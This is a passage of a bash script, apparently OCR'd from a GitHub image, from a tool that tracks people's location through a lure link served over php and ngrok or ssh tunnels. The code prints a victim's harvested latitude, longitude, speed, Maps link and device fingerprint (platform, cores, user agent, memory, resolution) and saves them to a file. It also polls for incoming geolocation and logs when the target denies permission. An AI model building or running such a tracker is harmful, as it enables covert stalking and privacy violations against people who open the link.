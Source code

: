 printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Latitude:\e[0m\e[1;77m %s\n\e[0m" $latitude
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Longitude:\e[0m\e[1;77m %s\n\e[0m" $longitude
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Altitude:\e[0m\e[1;77m %s\n\e[0m" $altitude
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Speed:\e[0m\e[1;77m %s\n\e[0m" $speed
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Heading:\e[0m\e[1;77m %s\n\e[0m" $heading
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Accuracy:\e[0m\e[1;77m %sm\n\e[0m" $accuracy
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Map:\e[0m\e[1;77m https://www.google.com/maps/place/%s+%s\n\e[0m" $latitude $longitude
printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m:::\e[0m\e[1;92m]\e[0m\e[1;93m Device Info:\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Platform:\e[0m\e[1;77m %s\n\e[0m" $platform
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Cores:\e[0m\e[1;77m %s\n\e[0m" $hardware
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m User-Agent:\e[0m\e[1;77m %s\n\e[0m" $useragent
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Memory:\e[0m\e[1;77m %s\n\e[0m" $memory
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Resolution:\e[0m\e[1;77m %sx%s\n\e[0m" $height $width
cat server/geolocate.txt >> server/saved.geolocate.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m server/saved.geolocate.txt\e[0m\n" 
killall -2 php > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
killall ssh > /dev/null 2>&1
if [[ -e sendlink ]]; then
rm -rf sendlink
fi
exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting Geolocation ...\e[0m\n"
while [ true ]; do


if [[ -e "server/geolocate.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Geolocation Found!\n"
catch_cred

fi
sleep 0.5
if [[ -e "server/error.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Error on Geolocation!\n"
checkerror=$(grep -o 'Error:.*' server/error.txt | cut -d " " -f2 | tr -d ' ' )
if [[ $checkerror == 1 ]]; then
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User Denied Geolocation ...\e[0m\n"
